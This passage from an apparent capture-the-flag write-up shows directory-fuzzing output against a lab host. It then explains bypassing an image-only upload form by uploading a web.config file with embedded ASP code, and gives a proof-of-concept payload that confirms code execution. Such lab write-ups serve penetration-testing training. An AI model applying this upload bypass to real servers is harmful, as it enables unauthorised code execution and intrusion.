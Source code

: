```

aspnet_client           [Status: 301, Size: 156, Words: 9, Lines: 2]
[INFO] Adding a new job to the queue: http://10.10.10.93/aspnet_client/FUZZ

.                       [Status: 200, Size: 630, Words: 25, Lines: 32]
transfer.aspx           [Status: 200, Size: 941, Words: 89, Lines: 22]
uploadedfiles           [Status: 301, Size: 156, Words: 9, Lines: 2]
[INFO] Adding a new job to the queue: http://10.10.10.93/uploadedfiles/FUZZ

trace.axd               [Status: 403, Size: 2062, Words: 463, Lines: 50]
[INFO] Starting queued job on target: http://10.10.10.93/aspnet_client/FUZZ

.                       [Status: 403, Size: 1233, Words: 73, Lines: 30]
trace.axd               [Status: 403, Size: 2062, Words: 463, Lines: 50]
system_web              [Status: 301, Size: 167, Words: 9, Lines: 2]
[INFO] Adding a new job to the queue: http://10.10.10.93/aspnet_client/system_web/FUZZ

[INFO] Starting queued job on target: http://10.10.10.93/uploadedfiles/FUZZ

.                       [Status: 403, Size: 1233, Words: 73, Lines: 30]
trace.axd               [Status: 403, Size: 2062, Words: 463, Lines: 50]
[INFO] Starting queued job on target: http://10.10.10.93/aspnet_client/system_web/FUZZ

.                       [Status: 403, Size: 1233, Words: 73, Lines: 30]
trace.axd               [Status: 403, Size: 2062, Words: 463, Lines: 50]
:: Progress: [450344/450344] :: Job [4/4] :: 3222 req/sec :: Duration: [0:02:59] :: Errors: 0 ::
```

Here we have a 200 response code on `transfer.aspx` so let's see. 

![](img/Pasted%20image%2020210821035433.png)

So we can upload files here. At first I tried to upload a webshell but it didn't work. It allows only images. We need to find a way to upload a malicious file.

## Exploitation

Reading through a lot of article I found the golden gem : 

https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/

It seems that you can upload `web.config` and upload asp code in it.

Let's try this payload : 
```
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

